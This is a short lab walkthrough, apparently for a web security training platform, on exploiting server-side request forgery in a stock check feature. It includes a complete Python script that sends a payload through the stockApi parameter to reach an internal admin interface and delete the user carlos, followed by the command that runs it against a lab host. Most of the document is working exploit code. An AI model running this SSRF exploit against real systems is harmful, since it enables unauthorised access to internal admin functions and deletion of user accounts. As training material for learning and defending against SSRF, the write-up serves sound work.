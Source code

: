 Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

Analysis:
localhost - http://localhost/
admin interface - http://localhost/admin
delete carlos - http:localhost/admin/delete?username=carlos

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_url_ssrf_payload = 'http://localhost/admin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    admin_ssrf_payload = 'http://localhost/admin'
    params2 = {'stockApi': admin_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)


if __name__ == "__main__":
    main()
```
Run the script
```bash
python3 ssrf-lab-01.py "https://ac601f415b12800232c700620026.web-security-academy.net"
```
END!
